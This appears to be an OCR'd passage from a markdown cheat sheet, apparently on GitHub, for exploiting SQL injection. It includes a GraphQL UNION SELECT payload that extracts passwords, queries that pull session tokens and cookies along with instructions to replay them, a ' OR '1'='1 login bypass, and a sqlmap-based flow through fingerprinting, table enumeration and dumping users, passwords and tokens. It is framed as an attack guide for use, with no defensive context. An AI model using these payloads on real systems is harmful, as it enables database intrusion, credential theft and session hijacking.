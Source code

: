 4. **GraphQL/API Endpoint Pivot**
   Found an internal API? Abuse SQLi in it:
   query {
    user(id: "1' UNION SELECT password FROM users--") {
       id
     }
   }
   
5. **Steal session/Auth Tokens**
   	SELECT token, ip FROM sessions;
   or:
   	SELECT cookie FROM analytics\_logs;
   then Replay:
   	Cookie: session=stolen\_token



### **SQLi Exploitation Flow (Textual Flowchart)**



\[1] Entry Point Discovery

&nbsp;    └─► Scan input vectors (forms, URLs, headers, cookies, GraphQL)

&nbsp;          └─► Check for injectable parameters (manual or with tools like sqlmap, Burp)



\[2] Initial SQL Injection

&nbsp;    └─► Test for authentication bypass or query manipulation

&nbsp;          └─► Bypass login with ' OR '1'='1

&nbsp;          └─► Trigger DB errors or anomalies (timing, boolean)



\[3] DBMS Fingerprinting

&nbsp;    └─► Extract database type/version

&nbsp;          └─► SELECT @@version / version()

&nbsp;          └─► sqlmap --banner



\[4] Table \& Column Enumeration

&nbsp;    └─► Find structure of DB

&nbsp;          └─► sqlmap --tables / --columns

&nbsp;          └─► Manually with UNION SELECT or information\_schema



\[5] Data Exfiltration

&nbsp;    └─► Dump sensitive data (users, passwords, tokens, emails)

&nbsp;          └─► sqlmap --dump
